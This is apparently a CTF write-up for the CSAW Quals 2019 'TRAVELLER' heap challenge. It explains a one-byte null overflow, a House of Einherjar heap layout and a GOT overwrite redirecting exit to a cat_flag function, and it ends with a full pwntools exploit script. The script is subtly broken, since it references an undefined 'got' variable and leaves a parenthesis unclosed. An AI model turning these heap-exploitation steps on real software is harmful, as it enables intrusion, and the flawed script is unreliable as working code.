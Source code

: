 # CSAW Quals 2019 TRAVELLER Writeup

Let's start by checking the mitigations enabled using GDB.

```sh
$checksec
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


So basically most of the protections are disabled.
This challenge is a just like other menu driven challenges, with options to add, edit, delete and view chunks.


##### Add 

- We can add chunk of the size from given five options. The program allocates a struct :
```sh
    struct trip{
        int disatance;
        char * destination;
    };
```
- Then it allocates the size, read data into it and copy the address to a table in bss and updates tIndex.
- We can only have 7 chunks at a time.

##### Change

- We can select any trip and update the data in it.
- Size is taken from the structure.

##### Delete

- Takes a struct and copy it into a temp variable.
- It takes the address of last chunk in the table and copies it to the position of the struct we are deleting in the table.
- The program then frees the struct and the destination chunk.

##### getTrip

- Just print out the data in destination of selected struct.

We also have a ***cat_flag*** function.

## Bug

The bug is in the change funtion :

```c
1    if ( tIndex > choice )
2  {
3    oldTrip = trips[choice];
4    bytes_read = read(0, oldTrip->destination, oldTrip->distance);
5    oldTrip->destination[bytes_read] = 0;
6  }
  
 ```
 As you can see in the 5th line, program copies a null to end of the data. Which means if we fill the entire buffer, we can get a ***one-byte*** overflow.
 So this is a ***House of Einherjar*** bug.
 
 First we have to figure out a way to get two adjescent destination chunks so that we can utilize the bug.
 
 Here's what we can do :
 
 - Create 2 large chunks.
 - Free the first one.
 - Create a small chunk so as to almost fill the freed chunk's space.
 
When next allocation happens, the struct will go to the previous freed space and the destination chunk will be created from top chunk. Here we get two destination chunks close to one another.

```py
add(2,'a'*0x80)
add(3,'b'*0x80)
free(0)
add(1,"c"*50)
```

Now we can overwrite the flag bit of last chunk by editing the chunk above it.

Before we free the chunk, we need the free to pass all the checks. We have to create fake chunks so that next chunk and next next chunk of the chunk to be freed are valid. Also we need to coalesce a chunk whose fd and bk are set.

For this we use the remaining space from the first freed chunk.

```py
next_chunk="d"*(0x200-18)+p64(0)+p64(0x51)
add(5,next_chunk)
prev_chunk="1"*288+p64(0x1a0)
edit(0,prev_chunk)
next_next_chunk="2"*46+p64(0)+p64(0x51)
add(1,next_next_chunk)
```
We have a struct which is currently allocated but also overlaps with a small_bin chunk.

Now we just need to allocate one more chunk and give the destination in a way it overwrites the destination address of the struct which was overlapped. We overwrite it with a GOT address.

Since RELRO is partial, we can just overwrite some GOT address with the cat_flag function.

Here GOT of exit is overwritten. Exit is called when the number of chunks is equal to 7. Thus create enough chunks and cat_flag will be called giving us the flag.

Exploit :

```py
from pwn import *
#io=remote("pwn.chal.csaw.io",1003)
io=process("./traveller",env = {"LD_PRELOAD" : "./libc-2.23.so"})
io.recvuntil("Welcome to trip management system. \n")
def add(choice,payload):
   io.send('1'.ljust(4," "))
   io.send(str(choice).ljust(4," "))
   if(choice==1):
       size=0x80
   elif(choice==2):
       size=0x110
   elif(choice==3):
       size=0x128
   elif(choice==4):
       size=0x150
   elif(choice==5):
       size=0x200
   io.send(payload.ljust(size," "))

def free(index):
   io.send('3'.ljust(4," "))
   io.send(str(index).ljust(0x14," "))
def edit(choice,payload):
   io.send('2'.ljust(4," "))
   io.sendline(str(choice).ljust(0x14," "))
   io.sendline(payload)
def view(index):
   io.send('4'.ljust(4," "))
   io.sendlineafter("view? \n",str(index))

#Creating two chunks

add(2,'a'*0x80) 
add(3,'b'*0x80)

#Freeing the 0th chunk
free(0)
io.sendline()

#Almost filling the free space
add(1,"c"*50)
io.sendline()

#Chunk to get adjascent to another chunk and also creating a next_chunk
next_chunk="d"*(0x200-18)+p64(0)+p64(0x51)
add(5,next_chunk)

#Overwriting the flag bit of the chunk and setting the prev_size
prev_chunk="1"*288+p64(0x1a0)
io.sendline()
edit(0,prev_chunk)

#Setting next_next_chunk to pass all the checks
next_next_chunk="2"*46+p64(0)+p64(0x51)
io.sendline()
add(1,next_next_chunk)
io.sendline()

#Freeing chunk to get an overlapping chunk
free(2)


#Overwriting the destination with exit_got
exit_got=0x0000000000602078
cat_flag=0x00000000004008b6
overwrite_destination="5"*62+p64(0x50)+p64(0x20)+p64(got)+p64(7)
io.sendline()
add(3,overwrite_destination)
io.sendline()

#Changing exit_got to cat_flag
edit(0,p64(cat_flag)
io.interactive()
```
 

